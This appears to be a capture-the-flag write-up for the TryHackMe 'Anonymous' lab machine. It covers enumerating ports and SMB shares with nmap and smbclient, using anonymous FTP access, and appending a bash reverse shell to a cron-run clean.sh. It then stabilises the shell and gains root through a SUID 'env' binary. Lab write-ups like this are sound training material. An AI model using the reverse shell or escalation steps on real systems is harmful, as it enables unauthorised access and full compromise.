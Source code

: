 # Anonymous

<b>Available at: </b>[TryHackMe](https://tryhackme.com/room/anonymous)

A medium level machine, feel free to read my notes

## Enumerate the machine.  How many ports are open?

Use nmap
`nmap -sC -sV -vv -oN nmap.txt -p- IP`

Answer: `4`

Ports open:
```
21
22
445
139
```

## What service is running on port 21?

What is typicall for port 21?

`FTP`

## What service is running on ports 139 and 445?

View the nmap output: `cat nmap.txt`

```
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

Answer: smb

## There's a share on the user's computer. What's it called?

We have to list shares. smbclient -L ////IP:445 or ////IP:139

But no luck. I tried an anonymous connection to the ftp client, and success. 

### Files got: 
```
clean.sh 
removed_files.log  
to_do.txt
```

At first glace, nothing good.

### smb-enum-shares

Became desperate, so I tried this.

```
nmap --script smb-enum-shares -p 445,139 10.10.253.50
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-02 16:36 EST
Nmap scan report for 10.10.253.50
Host is up (0.048s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.253.50\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (anonymous server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.253.50\pics: 
|     Type: STYPE_DISKTREE
|     Comment: My SMB Share Directory for Pics
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\namelessone\pics
|     Anonymous access: READ
|     Current user access: READ
|   \\10.10.253.50\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

```

### Answer

pics

`smbclient //IP/pics -U " "%" "`

and we get a list: 
```
corgo2.jpg
puppos.jpg
```
possible user: namelessone

## user.txt

take what I said back, we could use `clean.sh` to get a reverse shell

from 

```bash
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
to 

```bash
bash -i >& /dev/tcp/10.8.147.71/8888 0>&1;
```

I appended this to file in ftp using `append clean.sh` 
run `nc -lvnp 8888` in another tab and we are good to go!

Then just cat the user flag. 

## root.txt 

### Stabilize shell

```
$ python3 -c "import pty; pty.spawn('/bin/bash')"

$ export TERM=xterm; export SHELL=/bin/bash
```
then Ctrl + Z to background the process, and in your host:
```
$ stty raw -echo; fg
```
and bam , we have a stable shell

### Escalation

running `id` the user is in groups `4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)` but we dont know the sudo password.

Lets run find for suid binaries
```bash
find / -type f -user root -perm /4000 2>/dev/null
```
time for linpeas.sh! Lets get it over through a simple python server:
```
python3 -m http.server --bind LHOST_IP 9999
```
and on remote you just wget the linpeas.sh file and run it

Now.... After linpeas finished, I realized that it found SUID binaries, that I overlooked in find. Especially `env`. 

run 
```
env /bin/bash -p
```
and we are root 

The root flag is in the /root/ directory 
